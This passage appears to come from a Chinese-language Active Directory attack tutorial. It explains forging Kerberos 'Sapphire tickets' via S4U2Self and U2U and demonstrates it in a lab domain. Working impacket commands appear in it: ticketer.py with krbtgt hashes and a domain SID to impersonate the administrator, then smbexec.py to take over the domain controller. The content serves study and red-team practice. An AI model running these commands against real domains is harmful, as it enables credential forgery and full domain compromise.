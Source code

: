 ### 蓝宝石票据 Sapphire tickets

由于钻石票据直接修改 TGT 中 PAC 显得太过直接，于是又出现了更加隐蔽的蓝宝石票据，在 Kerberos 认证过程中，蓝宝石票据（Sapphire Ticket）的产生涉及到 Kerberos 的 S4U2Self 和 U2U 扩展。这使得它成为最难检测的银/金票据的变体，在这个流程中：

-   用户首先通过正常的 Kerberos 认证流程获取到 TGT（Ticket Granting Ticket）。
-   用户随后发起一个 S4U2Self 请求，这个请求是针对自己的，但是由于服务名称（SPN）的问题，KDC（Kerberos 身份验证服务）无法解析这个请求。
-   用户接着请求 U2U 扩展，这允许用户以另一个用户的身份进行身份验证。
-   KDC 使用 U2U 扩展来获取目标用户的 TGT，这个目标用户就是高权限的用户。
-   KDC 基于目标用户的 TGT 生成一个 ST（Service Ticket）。
-   用户使用 krbtgt 账户的密钥来解密这个 ST。
-   用户修改 ST 中的 PAC（Privilege Attribute Certificate），以包含所需的权限。
-   用户重新加密 ST，生成一个新的票据，这个票据就是蓝宝石票据。

目前可用的工具唯一就[ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py), 需要注意也要用 master 分支的，不然会显示没有 impersonate 参数，坑有点多，由于伪造高度依赖和 KDC 的交互，需要在目标环境执行命令；不过我之前不正好有台在域中的 linux，理论上 windows 也是一样，不过 linux 安装方便一点，下载 master 分支之后直接运行：

```bash
python3 setup.py install
```

进入 example 文件夹执行如下命令，-impersonate 代表要模拟的用户，-nthash 和-aesKey 都是域的 hash，-user-id 记得要和前面的 administrator 用户保持一致，否则域控会直接吊销我们的 TGS，还有最后的'administrator'只是票据的文件名而已：

```bash
python3 ticketer.py -request -impersonate 'administrator' -domain endlessparadox.com -user 'satoru' -password '1QAZ2wsx123456' -nthash 'c783a03c8f07f1d75c2b741cd93fe8c0' -aesKey '3a5ae89c92ae4f54b569ecfe622ea5c5b232c2fa8ad1d9b65e9ce07ef80e3d17' -user-id '500' -domain-sid 'S-1-5-21-3455334608-937969980-1598144099' 'administrator'
```

[![](assets/1707953845-677719c7584104fed0a89d86cfc84d2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040921-73232d66-c462-1.png)

好的，我现在是管理员了，再次 smbexec.py 接管域控，现在所有票据已经演示完毕了

```bash
KRB5CCNAME='administrator.ccache'  python3 smbexec.py -target-ip 192.168.43.136 -dc-ip 192.168.43.136 -k  -no-pass @'ad.endlessparadox.com'
```

[![](assets/1707953845-61695a063bc14e999d758a8ff13155c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040929-7848fd0c-c462-1.png)